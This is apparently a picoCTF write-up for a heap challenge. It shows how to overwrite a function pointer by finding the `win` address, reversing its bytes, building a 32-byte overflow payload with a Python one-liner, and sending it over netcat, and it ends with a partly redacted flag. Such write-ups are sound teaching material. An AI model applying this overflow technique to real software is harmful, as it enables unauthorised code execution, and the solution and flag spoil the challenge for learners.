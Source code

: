 # Description
Can you handle function pointers?   
Download the binary [here](https://artifacts.picoctf.net/c_mimas/50/chall).   
Download the source [here](https://artifacts.picoctf.net/c_mimas/50/chall.c).

# Solution
- Analyze the given source code -> the flag is read and displayed by the function `win` and we need to manipulate the pointer to call this function
- First we need address of the win function
	- `objdump -D ./heap2 | grep win` -> assume address is 004011a0 
	- Check the endianness of the executable using exiftool -> little endian
	- Hence the address will have to be flipped before sending it to the executable -> 00 40 11 a0 becomes a0 11 40 00
	- Since byte value can't be sent directly using nc we can write the output as bytes into a file and read that file into the netcat connection
		- `python3 -c 'import sys; sys.stdout.buffer.write(b"2\n" + b"A"*32 + b"\xa0\x11\x40\x00"+b"\n1\n3\n4\n5")' > input`
		- `nc <ip> <port> < input`
- Flag -> `picoCTF{and_down_the_road_we_go_<some_id>}`